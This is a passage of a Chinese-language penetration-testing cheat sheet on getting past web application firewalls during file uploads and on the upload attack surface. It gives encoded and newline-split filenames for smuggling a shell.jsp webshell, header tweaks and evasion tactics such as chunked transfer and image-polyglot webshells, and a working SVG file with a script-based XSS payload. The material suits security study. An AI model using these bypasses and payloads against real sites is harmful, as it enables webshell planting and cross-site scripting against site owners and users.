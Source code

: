        <TabItem value="5" label="文件名字编码">
            ```bash
            filename=\u0073\u0068\u0065\u006c\u006c\u002e\u006a\u0073\u0070
            ```
        </TabItem>
        <TabItem value="6" label="回车换行">
            ```bash
            FileName=shell.jspx.
            jsp

            File
            Name=shell.jspx.jsp'
            ```
        </TabItem>
    </Tabs>
   

3. 修改请求方式
4. Host 头部绕过 : 伪造请求来源
5. 修改编码类型 `Accept-Encoding`
   ```bash
   Accept-Encoding: gzip
    Accept-Encoding: compress
    Accept-Encoding: deflate
    Accept-Encoding: br
    Accept-Encoding: identity
    Accept-Encoding: *
    ```

### 迂回攻击
1. 免杀马 : 如果只是针对内容做了检测可以考虑搞个免杀马
2. 分块传输 : 
3. 修改长度字段 : 和分块参数有点类似，作用是这样，有些时候做参数大数据污染的时候，waf判断数据过长直接丢弃，有些判断长度和内容相差太多也直接丢弃。这时候可以把两者结合起来使用，达到超长数据绕过waf的检测，同时数据送到了后端
4. 基于网站系统特性添加字段 : 比如ASP专属bypass-devcap-charset，添加这些字段去绕过waf的检测
5. 修改头部+内容结合 : 修改头部为其他格式，再把内容头加其他格式，例如图片，中间插入恶意代码，类似图片马
6. 增加多个boundary
7. 文件名写入文件 : windows下利用多个 ``<<<<`` 去写入文件

## 文件上传攻击面

- 直接上传 WebShell
- 上传压缩包

### 上传 HTML 或 SVG
允许上传html或者svg都可以能导致xss，也能导致任意URL跳转，甚至还能导致SSRF（很难利用），因为核心还是js代码可控
- 上传 HTML 造成 XSS: 这个就比较简单了, 没有什么说的
- SVG 文件造成 XSS
    <details>

    <summary>SVG  造成 XSS</summary>

    1. 创建一个恶意的svg文件，输入如下内容：
        ```xml
        <?xml version="1.0" standalone="no"?>
        <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
        <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
            <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
            <script type="text/javascript">
                alert(document.domain);
            </script>
        </svg>
        ```
    2. 上传文件并访问
   ```